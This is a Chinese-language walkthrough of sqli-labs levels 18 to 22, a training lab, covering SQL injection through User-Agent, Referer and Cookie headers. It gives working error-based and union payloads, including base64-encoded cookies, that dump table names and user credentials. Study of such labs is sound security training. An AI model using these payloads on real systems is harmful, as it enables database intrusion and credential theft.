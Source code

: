 # sqli-labs靶场(3)POST头部注入


sqli-labs靶场精简记录18-22

<!--more-->

### Less-18 POST - Header Injection - Uagent field - Error based

基于错误的用户代理，头部POST注入

```
	$uname = check_input($_POST['uname']);
	$passwd = check_input($_POST['passwd']);
...
			$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
			mysql_query($insert);
			//echo 'Your IP ADDRESS is: ' .$IP;
```

注入点在insert 语句，未对 uagent 和 ip_address 进行过滤，并且输出报错信息

> **PHP 里用来获取客户端 IP 的变量**
>
> - `$_SERVER['HTTP_CLIENT_IP']` 很少使用，客户端可以伪造。
> - `$_SERVER['HTTP_X_FORWARDED_FOR']`，客户端可以伪造。
> - `$_SERVER['REMOTE_ADDR']`，客户端不能伪造。

这里的IP无法伪造，故通过user-agent来进行注入

payload:爆数据库

```http
POST /Less-18/ HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: ' and extractvalue(1,concat(0x7e,(select database()),0x7e)) and '
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Referer: http://127.0.0.1:8888/Less-18/
Content-Type: application/x-www-form-urlencoded
Content-Length: 38
Connection: close
Upgrade-Insecure-Requests: 1

uname=admin&passwd=admin&submit=Submit
```

这里不使用注释符

```
$insert="INSERT INTO `security`.`uagents` (`uagent`, `ip_address`, `username`) VALUES ('$uagent', '$IP', $uname)";
```

uagent 是在 IP 和 uname 之前的，如果注释掉后面的语句，会导致 Insert 语句异常

extractvalue()函数

```
爆表:
' and extractvalue(1,concat(0x7e,(select group_concat(table_name) from information_schema.tables where table_schema=database())))  and '
爆列名：
' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security')))  and ' 
爆列名：
' and extractvalue(1,concat(0x7e,(select group_concat(column_name) from information_schema.columns where table_name='users' and table_schema='security')))  and ' 

' and extractvalue(1,concat(0x7e,(select group_concat(username,0x3a,password) from users where username not in ('Dumb','Angelinal')))) and ' 
```

updatexml()函数

```
数据库:
' or updatexml(1,concat('#',(database())),0),' ',' ')-- #
' and updatexml(1,concat('#',(database())),0),' ',' ')-- #
爆表：
' or updatexml(1,concat('#',(select group_concat(table_name) from information_schema.tables where table_schema='security')),0),'','')#
爆字段
' and updatexml(1,concat('#',(select group_concat(column_name) from information_schema.columns where table_schema='security' and table_name='users')),0),'','')-- #
爆数据：
' and updatexml(1,concat('#',(select * from (select concat_ws('#',id,username,password) from users limit 0,1) a)),0),'','')-- #
使用limit偏移注入依次爆出其他用户和密码。 
```

### Less-19 POST - Header Injection - Referer field - Error based

基于头部的Referer POST报错注入

```
	$uagent = $_SERVER['HTTP_REFERER'];
	$IP = $_SERVER['REMOTE_ADDR'];
...
	$uname = check_input($_POST['uname']);
	$passwd = check_input($_POST['passwd']);
...
			$insert="INSERT INTO `security`.`referers` (`referer`, `ip_address`) VALUES ('$uagent', '$IP')";
			mysql_query($insert);	
...	
			echo 'Your Referer is: ' .$uagent;
```

注入点在referer，payload同上题

### Less-20 POST - Cookie injections - Uagent field - Error based 

基于错误的cookie头部POST注入

```
      $cookee = $_COOKIE['uname'];
...
			echo "YOUR COOKIE : uname = $cookee and expires: " . date($format, $timestamp);
...
			$sql="SELECT * FROM users WHERE username='$cookee' LIMIT 0,1";
...
				print_r(mysql_error());
```

payload

```http
GET /Less-20/ HTTP/1.1
Host: 192.168.131.1:1111
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Cookie: uname=-admin' union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database() --+
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```



### Less-21 Cookie Injection- Error Based- complex - string

基于 base64 编码单引号和括号的 Cookie 注入

vul

```
			$cookee = $_COOKIE['uname'];
...
			echo "YOUR COOKIE : uname = $cookee and expires: " . date($format, $timestamp);
...
			$cookee = base64_decode($cookee);
			echo "<br></font>";
			$sql="SELECT * FROM users WHERE username=('$cookee') LIMIT 0,1";
```

注入点在cookie，但经过base64编码了

payload

```http
GET /Less-21/ HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: uname=c3Fsc2VjJykgdW5pb24gc2VsZWN0IDEsMiwoU0VMRUNUIEdST1VQX0NPTkNBVCh1c2VybmFtZSxwYXNzd29yZCBTRVBBUkFUT1IgMHgzYzYyNzIzZSkgRlJPTSB1c2Vycykj
Connection: close
Upgrade-Insecure-Requests: 1
```

### Less-22 Cookie Injection- Error Based- Double Quotes - string

基于错误的双引号字符型Cookie注入

bypass

改双引号闭合

payload

```
GET /Less-22/ HTTP/1.1
Host: 127.0.0.1:8888
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Cookie: uname=MSIgb3IgZXh0cmFjdHZhbHVlKDEsY29uY2F0KDB4N2UsKHNlbGVjdCBncm91cF9jb25jYXQodGFibGVfbmFtZSkgZnJvbSBpbmZvcm1hdGlvbl9zY2hlbWEudGFibGVzIHdoZXJlIHRhYmxlX3NjaGVtYT1kYXRhYmFzZSgpKSwweDdlKSktLSAj
Connection: close
Upgrade-Insecure-Requests: 1
```

